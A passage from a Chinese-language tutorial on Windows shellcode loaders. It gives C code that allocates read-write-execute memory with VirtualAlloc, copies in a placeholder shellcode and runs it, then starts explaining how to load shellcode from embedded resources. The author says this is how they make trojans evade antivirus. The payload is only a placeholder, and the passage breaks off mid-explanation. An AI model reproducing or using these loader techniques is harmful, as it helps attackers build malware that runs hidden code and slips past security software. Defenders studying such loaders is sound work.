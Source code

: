 ##### 2.申请内存执行

```
#include &lt;Windows.h&gt;
#include &lt;stdio.h&gt;

int main()
{
    char shellcode[] = "shellcode";
    void* run = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //使用 VirtualAlloc申请一块可读可写可执行的内存(PAGE_EXECUTE_READWRITE)
    memcpy(run, shellcode, sizeof shellcode);
    //使用memcopy将shellcode拷贝到刚刚申请的内存中
    ((void(*)())run)();
}

```

##### 3.资源加载shellcode

这也是我木马免杀的执行方式

先补充一些前置知识需要学习3个函数

**1、FindResource：该函数确定指定模块中指定类型和名称的资源所在位置。**

```
HRSRC FindResource(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);

```

```
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"calc_bin");

```

**2、SizeofResource：表示该函数返回指定资源的字节数大小。**

```
DWORD SizeofResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);

```

```
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);

```

**3、LoadResource：装载指定资源到全局存储器**

```
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);

```
